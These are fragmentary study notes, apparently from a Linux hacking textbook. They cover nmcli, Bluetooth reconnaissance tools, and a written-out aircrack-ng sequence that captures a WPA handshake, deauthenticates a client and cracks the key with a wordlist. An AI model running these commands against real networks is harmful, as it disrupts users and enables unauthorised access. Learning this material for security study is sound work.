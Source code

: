 iwlist wlan0 scan

need MAC address of the target AP (BSSID), MAC address of a client (another Wireless network card), and the channel the AP is operating on.

nmcli (network manager command line interface) linux daemon high level interface for network interfaces is network manager

Wifi ap and their key data
nmcli dev networktype;
nmcli dev wifi
nmcli dev wifi connect AP-SSID password AP password

nmcli dev connect Hackers-Arise password 123456789
iwconfig

airmon-ng start|stop|restart interface

airmon-ng start wlan0
airodump-ng wlan0mon
airodump­ng ­c 10 ­­bssid 01:01:AA:BB:CC:22 ­w Hackers­ArisePSK wlan0mon
aireplay­ng ­­deauth 100 ­a 01:01:AA:BB:CC:22­c A0:A3:E2:44:7C:E5 wlan0mon
aircrack­ng ­w wordlist.dic ­b 01:01:AA:BB:CC:22 Hacker­ArisePSK.cap

# Bluetooth

2.4 - 2.485GHz frequency hopping 1,600 hops per second
100 meters
pairing bluetooth

Name
Class
List of services
Technical information
48­bit identifier (a MAC­like address)

apt-get install bluez

hciconfig = ifconfig for bluetooh
hcitool = inquiry tool provides name, device ID, device class, device clock info.
hdcidump = enables sniffing bluetooth 

hciconfig
hciconfig hci0 up
hcitool scan
hcitool --help
sdptool browse MACaddress
sdptool browse 76:6E:46:63:72:66
l2ping MACaddress
l2ping 76:6E:46:63:72:66 -c 4

\\Chapter 15 MANAGING THE LINUX KERNEL AND LOADABLE KERNEL MODULES

kernel = center, controls what the system does, managing memory, controlling cpu, what user sees on screen,
user land = everything else you see
